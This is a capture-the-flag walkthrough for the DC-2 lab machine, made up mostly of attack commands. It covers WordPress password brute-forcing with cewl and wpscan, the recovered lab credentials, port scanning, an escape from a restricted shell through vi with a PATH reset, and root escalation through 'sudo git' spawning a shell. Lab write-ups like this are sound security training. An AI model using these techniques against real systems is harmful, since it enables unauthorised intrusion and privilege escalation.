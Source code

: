 # DC 2 Walkthrough

### Editing Hosts File

```sh
gedit /etc/hosts
ip    dc-2
>>webbrowser >> http://dc-2
```

### Flag 1

> Your usual wordlists probably wonʼt work, so instead, maybe you just need to be cewl.
> More passwords is always better, but sometimes you just canʼt win them all.
> Log in as one to see the next flag.
> If you canʼt find it, log in as another.

```sh
wpscan --url http://dc-2
### Enumerating Users and Passwords
cewl http://dc-2 > /home/pinisher/Testing/Dc-2/passwords.txt
wpscan --url http://dc-2 -U 'location/users.txt' -P 'location/passwords.txt'
```

**Valid Combinations Found:**

- Username: jerry, Password: adipiscing
- Username: tom, Password: parturient

```sh
nikto http://dc-2 >> wp-login.php
simple login to tom
```

### Flag 2

> If you can't exploit WordPress and take a shortcut, there is another way.
> Hope you found another entry point.

### Scanning for Open Ports

```sh
nmap -p- -sV <target-ip>
### Accessing SSH
ssh tom@<target-ip> -p 7744
ls /usr/bin
### Privilege Escalation
vi
:set shell=/bin/bash
:shell
echo $PATH
export PATH=$PATH:/home/tom/usr/bin:/bin:/sbin:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin
cd /usr/local
ls
```

### Flag 3
> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```sh
tom@DC-2:$ echo $(<flag3.txt)
### Checking /etc/passwd
cat /etc/passwd
```

```
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
```



```sh
### Switching to Jerry
su jerry
# Enter password
```

### Flag 4

> Good to see that you've made it this far - but you're not home yet.
> You still need to get the final flag (the only flag that really counts!!!).
> No hints here - you're on your own now.
> Go on - git outta here!!!!

### Exploiting Git for Privilege Escalation

```sh
sudo git branch --help config
!/bin/sh
cd root
```

### Final Flag

**Congratulations!!!**

> A special thanks to all those who sent me tweets and provided me with feedback - it's all greatly appreciated.

